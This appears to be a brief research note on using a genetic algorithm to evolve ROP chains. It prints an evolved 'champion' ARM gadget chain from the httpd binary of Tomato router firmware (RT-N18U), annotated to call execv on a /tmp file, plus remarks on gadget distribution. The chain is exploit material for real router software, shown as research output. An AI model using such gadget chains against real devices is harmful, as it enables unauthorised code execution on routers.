


Created: 2020-05-19 Tue 13:10
At bottom, there is no essential distinction between data and code.
"Data" is just information your system trusts.



Champion of the Wiwzuh population:
0000b4ac pop {r4, r5, r6, r7, r8, pc}
0000d1a0 cmp r0, #0
0000d1a4 popeq {r3, r4, r5, pc}
00016654 cmp r0, #0
00016658 ldr r3, [pc, #4]
0001665c moveq r0, r3
00016660 pop {r3, pc}
0001706c ldm sp, {r0, r1}
00017070 add sp, sp, #0x10
00017074 pop {r4, r5, r6, pc}
;; R0: 0001f62f R2: 00000000
;; R1: &0001f62f R7: 0000000b
;; to call execv("/tmp/flashXXXXXX", ["/tmp/flashXXXXXX"], NULL)
00018fc4 svcvc #0xffffff
These were of interest in two respects:
Distribution of gadgets in tomato-RT-N18U-httpd.
Here, the gene responsible for correct classification of the data was also responsible for crashing the execution. It rapidly took over the population.